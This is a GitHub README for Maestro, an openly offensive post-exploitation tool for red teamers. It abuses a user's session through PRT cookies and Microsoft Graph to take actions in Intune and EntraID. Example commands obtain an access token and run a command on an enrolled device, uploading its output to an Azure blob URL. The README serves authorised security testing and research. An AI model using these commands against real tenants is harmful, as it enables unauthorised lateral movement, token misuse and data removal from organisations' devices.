 <p align="center">
    <img src="https://img.shields.io/endpoint?url=https%3A%2F%2Fraw.githubusercontent.com%2Fspecterops%2F.github%2Fmain%2Fconfig%2Fshield.json&style=flat"
        alt="Sponsored by SpecterOps"/></a>
    <a href="https://twitter.com/_Mayyhem">
        <img src="https://img.shields.io/twitter/follow/_Mayyhem?style=social"
        alt="@_Mayyhem on Twitter"/></a>
</p>

---

# Maestro
Maestro is a post-exploitation tool designed to interact with Intune/EntraID from a C2 agent on a user's workstation without requiring knowledge of the user's password or Azure authentication flows, token manipulation, and web-based administration console. Maestro makes interacting with Intune and EntraID (and potentially other Azure services) from C2 much easier, as the operator does not need to obtain the user's cleartext password, extract primary refresh token (PRT) cookies from the system, run additional tools or a browser session over a SOCKS proxy, or deal with Azure authentication flows, tokens, or conditional access policies in order to execute actions in Azure on behalf of the logged-in user.

Maestro is essentially a wrapper for local PRT cookie requests and calls to the Microsoft Graph API with a lot of quality-of-life features added for red teamers. Maestro enables attack paths between on-prem and Azure. For example, by running Maestro on an Intune admin's machine, you can execute PowerShell scripts on any enrolled device without ever knowing the admin's credentials, even if MFA, device compliance, and a hybrid-joined device are required by conditional access policies.

Maestro's lateral movement functions were inspired by [Death from Above: Lateral Movement from Azure to On-Prem AD](https://posts.specterops.io/death-from-above-lateral-movement-from-azure-to-on-prem-ad-d18cb3959d4d) by Andy Robbins ([@_wald0](https://x.com/_wald0)). 

You can read more in this introductory blog post for Maestro: https://posts.specterops.io/maestro-9ed71d38d546

# Features
- Real-time PowerShell script execution (via Proactive Remediations)
- Application execution
- Real-time Device Query execution
- Force device check-in and sync
- Intune and Entra object enumeration
- Local database to store credentials and query results

# Syntax
`Maestro.exe <command> [subcommand] [options]`

All commands and subcommands have a help page that is generated using a custom command line parser to keep the size of the binary to a minimum. Help pages can be accessed by entering any Maestro command followed by `-h` or `--help`.

Please refer to the output of the `--help` option for each command for the most up-to-date usage information.

Examples can be found at the bottom of this file.

# vNext
- Local Endpoint Privilege Management (EPM) enumeration

# Blogs/Talks
- [DEF CON 32 Demo Labs slides](https://docs.google.com/presentation/d/1TGl-ASNo-1jXMOha9yd1CdPI-zCMt2UP/edit?usp=sharing&ouid=114582824289521319309&rtpof=true&sd=true)

# Development
For debugging, I share a directory on an Intune-enrolled machine that is accessible from my host running Visual Studio, execute the Visual Studio Remote Debugger, configure a post-build job to copy the solution files to the share, and configure Visual Studio to remote debug on the enrolled system.

# Supporters
The time I'm able to spend researching, developing, and improving Maestro would not be possible without [SpecterOps's](https://www.specterops.io/) sponsorship of the project as part of their commitment to transparency and support for open-source development. I'm immensely grateful for their guidance and support.

# Contributions
Some Maestro features were inspired by or built based on the work of others, including:
- [RequestAADRefreshToken](https://github.com/leechristensen/RequestAADRefreshToken), by Lee Chagolla-Christensen ([@tifkin_](https://x.com/tifkin_))
- [ROADtoken](https://github.com/dirkjanm/ROADtoken), by Dirk-jan Mollema ([@_dirkjan](https://x.com/_dirkjan))

If you're interested in collaborating, please hit me up on Twitter ([@_Mayyhem](https://twitter.com/_Mayyhem)) or in the [BloodHoundGang Slack](http://ghst.ly/BHSlack)!

# Examples
Get an access token for MS Graph using MSAL and the Azure PowerShell client ID (not yet prevented my mandatory MFA):
```
.\Maestro.exe get access-token -m 2 -t mayyhem.onmicrosoft.com -c 1950a258-227b-4e31-a9cf-717495945fc2 -s https://graph.microsoft.com/.default
2025-02-06 21:09:24.701 UTC - [INFO]    Execution started
2025-02-06 21:09:24.810 UTC - [INFO]    MSAL DLL loaded and ready for use.
2025-02-06 21:09:24.810 UTC - [INFO]    SharpGetEntraToken attempting to get an access token
2025-02-06 21:09:25.857 UTC - [INFO]    SharpGetEntraToken got an access token:
eyJ0...tDOg
2025-02-06 21:09:25.982 UTC - [INFO]    Completed execution in 00:00:01.3203797
```

Execute `dsregcmd.exe` on the Intune device with ID `e537180b-6d04-427e-bf93-dbde818400eb`, uploading results to the Azure Storage Blob Container SAS URL with a shared access token:
```
.\Maestro.exe exec intune upload -i e537180b-6d04-427e-bf93-dbde818400eb -n MyPolicy --url 'https://maestro2go.blob.core.windows.net/uploads?st=2025-01-14T20:19:57Z&se=2025-01-15T04:19:57Z&si=All&sv=2022-11-02&sr=c&sig=QYri...ZkpA%3D' --commands "%windir%\system32\dsregcmd.exe"
...
2025-01-14 20:20:28.251 UTC - [INFO]    Creating new device assignment filter with displayName: d004a709-aae6-4fbf-91cd-48f227272c97
2025-01-14 20:20:28.251 UTC - [INFO]    Requesting devices from Intune
2025-01-14 20:20:28.267 UTC - [INFO]    Requesting IntuneDevices from Microsoft Graph
2025-01-14 20:20:28.783 UTC - [INFO]    Found 1 IntuneDevice matching query in Microsoft Graph
2025-01-14 20:20:29.017 UTC - [INFO]    Found 1 devices in filtered results
2025-01-14 20:20:29.361 UTC - [INFO]    Obtained filter ID: 6fdc043b-4c3a-4f77-b9a3-0d65d9300e64
2025-01-14 20:20:29.379 UTC - [INFO]    Creating custom config policy for device: e537180b-6d04-427e-bf93-dbde818400eb
2025-01-14 20:20:29.649 UTC - [INFO]    Obtained policy ID: fbca5c35-5282-4ec7-87de-a2d16a743079
2025-01-14 20:20:29.680 UTC - [INFO]    Assigning policy fbca5c35-5282-4ec7-87de-a2d16a743079 with filter 6fdc043b-4c3a-4f77-b9a3-0d65d9300e64
2025-01-14 20:20:29.983 UTC - [INFO]    Successfully assigned policy with filter
2025-01-14 20:20:29.983 UTC - [INFO]    Successfully created and assigned diagnostic logs policy with request ID 651d2244-4ad7-4efe-bb5e-d017b0c27750
2025-01-14 20:20:29.999 UTC - [INFO]    Not syncing automatically, execute the following to force device sync:

    .\Maestro.exe exec intune sync -i e537180b-6d04-427e-bf93-dbde818400eb

Clean up after execution:
    .\Maestro.exe delete intune policy -i fbca5c35-5282-4ec7-87de-a2d16a743079
    .\Maestro.exe delete intune filter -i 6fdc043b-4c3a-4f77-b9a3-0d65d9300e64

2025-01-14 20:20:29.999 UTC - [INFO]    Completed execution in 00:00:04.8572902
```
